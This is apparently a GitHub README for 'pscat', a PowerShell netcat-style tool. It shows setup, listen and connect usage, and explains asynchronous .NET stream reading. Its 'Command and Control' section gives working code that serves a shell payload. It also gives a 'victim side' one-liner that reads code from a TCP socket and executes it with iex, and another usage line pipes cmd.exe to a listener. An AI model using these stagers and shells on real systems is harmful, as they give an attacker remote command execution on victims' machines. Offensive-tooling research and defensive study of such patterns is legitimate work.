 # pscat

PowerShell has many extremely useful features, but we want to harness the best ones. We can leverage our knowledge and create a tool kit designed to interact over the network. Normally these tasks are tricky, so here is the showcase of what is possible.

There are many ways to interact of the network, and for our choice, we are choosing **Asynchronous Execution**.

### **Setup**

```powershell
git clone https://github.com/SilentisVox/pscat
cd pscat
. ./pscat.ps1
```

### **Usage**

```powershell
# Listen Mode
pscat -Listen -Port 4444

# Connect Mode
pscat -Connect -Address 127.0.0.1 -Port 4444

# Pipe process
pscat -Listen -Port 4444 -Execute cmd.exe

# Pipeline data
"Hello, World!" | pscat -Listen -Port 4444

# Utilize Tcp Client
pscat -UtilizeGuest $TcpClient

# Help
pscat -Help

# OR
pc -l -p 4444
pc -c 127.0.0.1 4444
pc -l -p 4444 -e cmd.exe
pc -h
```

```powershell
# Command and Control Via pscat
$Content = Get-Content pscat.ps1 | Out-String
$Payload = $Content + 'pc -u $TcpClient -e cmd.exe'
$Payload | pc -l -p 4444 -v

# From the Victims side
$TcpClient = [Net.Sockets.TcpClient]::new("127.0.0.1", 4444)
$Buffer = [Byte[]]::new(65535)
$Read = $TcpClient.GetStream().Read($Buffer, 0, $Buffer.Length)
$Data = [Text.Encoding]::ASCII.GetString($Buffer, 0, $Read)
iex $Data

# or
$t=[net.sockets.tcpclient]::new('127.0.0.1',4444);$b=[byte[]]::new(65535);$r=$t.getstream().read($b,0,65535);[text.encoding]::ascii.getstring($b,0,$r)|iex
```

## **Brief Explanation**

![pscat](assets/pscat.jpg)

### **Asynchronous Stream Reading**

The .NET framework offers an asynchronous reading operation `BeginRead()`, which immediately returns an `IAsyncResult`, where code can keep running as the operation continues to completion.

And with a simple structure, we should be able to handle and read streams very easily. This include a process' Standard Input/Output/Error base stream.

###### Stream Reading Operation

```powershell
# Our IO Stream
[IO.Stream]    $Stream

# Our byte array
[Byte[]]       $Buffer

# Our Reading operation
[IAsyncResult] $Stream.BeginRead($Buffer, 0, $Buffer.Length, $null, $null)
```

###### Stream Structure

```powershell
# A structure to organize streams, their buffers and operations
class stream
{
    [String]       $Name
    [IO.Stream]    $IOStream
    [Byte[]]       $Buffer
    [IAsyncResult] $AsyncResult
}
```
